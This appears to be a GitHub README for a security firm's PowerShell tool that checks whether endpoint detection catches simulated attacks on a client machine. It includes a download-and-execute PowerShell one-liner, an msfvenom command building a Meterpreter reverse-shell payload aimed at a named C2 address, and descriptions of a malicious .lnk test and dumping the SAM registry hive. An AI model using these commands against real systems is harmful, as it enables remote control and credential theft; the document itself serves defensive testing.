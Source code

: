 # ResponseValidation
```
                                                                                          @@@
                                                                                        @@@ @ @@@@
                                                                                      @@@ @ @@@ @
                                                                                   @@@@ @@@@ @  @@@
                                                                                /@@@ @@@@  @@@@@ @
                                                                             #@@. @@@@ @@@@@ &@
                                                                          @@@@@@@@  @@@   @@@@@@&
                                                                       @@@@@@@@@@@@  @@@@@@ @@
                                                                   @@@@@@@@@@@@@@@@   @@@@@@
                                                                 @@@@@@@@@@@@@ %@@@@@   @@
                                             @@               @@@@    @@@@@@@@   @@@@@@@.@
                                        @@@@ @@@@          @@@@       @@@@@@@@      @@
                                     @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @
                                  @@@@            @@@   @@@       @@@@@@@@@@@@@@ @
                                  @@               @@@ @@@       @@@@@@@  @@@@
                                   @@              @@@@@@      @@@@@@@@@@  @@
                                    @@              @@@@      @@@@@@@@@@@@
                                     @(          /@@@        @@@@@    @
                                     @@       @@@@          @@@@@@@@ @
                                     @ @@@@@@@#             /@@@@@@@
                                   @@@@@@@                    @@@@ @
                                 @  @@@@@                       @@@@
                               @  @@@@             @@/            @@@@@@
                              @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@
                               @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@
                                @           @@@@@ @@                  &@@& @@  @@@@@@
                                           @@@@@@@*
                                          @@@ @@
                                       @@   @
                                   @@ @@@@@
                                       @
```

# DO NOT RUN WITHOUT EXPRESSED CONSENT FROM TRIFIDENT
To execute, simply run the following command from a machine with PowerShell installed (Windows / MacOS)
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/TRIFIDENT/ResponseValidation/main/RunTests.ps1").Content
```

## What does this Tool Do?
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter
>  
> Generated by Trifident, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


